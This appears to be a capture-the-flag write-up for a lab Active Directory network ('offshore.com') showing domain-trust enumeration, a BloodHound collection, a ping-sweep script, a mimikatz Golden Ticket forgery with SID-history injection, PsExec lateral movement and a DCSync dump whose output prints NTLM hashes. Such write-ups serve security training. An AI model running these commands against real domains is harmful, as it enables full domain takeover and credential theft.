

Domain admin hash for admin.offshore.com
With the administrator hash we found on WS03 we can Evil-WinRM to DC02 and get the flag on the administrator desktop
OFFSHORE{l@zy_adm1ns_ru1n_th3_p4rty}
Let's get the Domain Trusts from dev.admin.offshore.com to see where we need to proceed
PS C:\temp> Get-DomainTrust -Domain dev.admin.offshore.com
SourceName : dev.ADMIN.OFFSHORE.COM
TargetName : ADMIN.OFFSHORE.COM
TrustType : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : WITHIN_FOREST
TrustDirection : Bidirectional
WhenCreated : 5/31/2018 10:24:17 PM
WhenChanged : 5/2/2023 7:10:18 AM
SourceName : dev.ADMIN.OFFSHORE.COM
TargetName : corp.local
TrustType : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FILTER_SIDS
TrustDirection : Bidirectional
WhenCreated : 6/9/2018 2:53:07 AM
WhenChanged : 5/2/2023 7:09:49 AM
Get a Bloodhound dump
PS C:\temp> . .\SharpHound.ps1
PS C:\temp> Invoke-BloodHound -CollectionMethod All -Domain admin.offshore.com
Ping the domain to see the DC IP
PS C:\temp> ping admin.offshore.com
Pinging admin.offshore.com [172.16.3.5] with 32 bytes of data:
Reply from 172.16.3.5: bytes=32 time<1ms TTL=127
Pingsweep to find the hosts
└─$ cat pingsweep_admin.sh
#!/bin/bash
for ip in 172.16.3.{1..254}; do
if ping -c 1 -W 1 "$ip" >/dev/null; then
echo "$ip" >> admin.pingsweep.txt
fi
done
└─$ cat admin.pingsweep.txt
172.16.3.5
172.16.3.103
Let's try a golden ticket attack
For this attack we need
user: administrator
user sid: S-1-5-21-1416445593-394318334-2645530166 (get this with wmic useraccount get name,sid)
krbtgt's password hash: 9404def404bc198fd9830a3483869e78
get this with Get-NetUser -Identity krbtgt -Domain dev.admin.offshore.com -server 172.16.3.5 | Select-Object ObjectGUID
objectguid
----------
72f120b4-414c-47e9-91a7-3be55b14ac29
sids:
PS C:\temp> convertto-sid ADMIN\administrator
S-1-5-21-1216317506-3509444512-4230741538-500 (replace 500 with 519 for enterprise admins)
.\mimikatz.exe "kerberos::golden /domain:dev.admin.offshore.com /user:Administrator /sid:S-1-5-21-1416445593-394318334-2645530166 /krbtgt:9404def404bc198fd9830a3483869e78 /sids:S-1-5-21-1216317506-3509444512-4230741538-519 /ptt" "exit"
Open CMD.exe administratively
Use Psexec64.exe to get nt authority\system (psexec64.exe -i -s cmd.exe)
Use it again to lateral to DC03 (psexec64.exe -s -i \\dc03 cmd.exe)
Upload mimikatz and dump the hashes for admin.offshore.com

Using 'mimikatz.log' for logfile : OK
mimikatz(commandline) # lsadump::dcsync /all /csv
[DC] 'ADMIN.OFFSHORE.COM' will be the domain
[DC] 'DC03.ADMIN.OFFSHORE.COM' will be the DC server
[DC] Exporting domain 'ADMIN.OFFSHORE.COM'
[rpc] Service : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
502 krbtgt ea9112d4beb759907688c9e267eff246 514
1107 MS01$ db505645b78f70ae01dd6cebbe4b2b8b 4096
1000 DC03$ a309490aabcffeea561fb1d8b36607d0 532480
1108 WS04$ 2abf50d13b5e08b92ac2d90c1d125b99 4096
3101 DEV$ 778f0b76a4c455a8a6b2beb8f6b9b2a9 2080
3104 CLIENT$ 138b107ad1069ee8884b6d55b0383177 2080
500 Administrator f2594c9e60abf7e28e7601db343a7e24 512
13101 dumahgrind 6f59a2db73706c68b2c6c27391363a93 512
3113 bankvault 0ce1cb01ade331cdba32d0e1fba338a1 512
mimikatz(commandline) # exit
Bye!
Double check that our hash works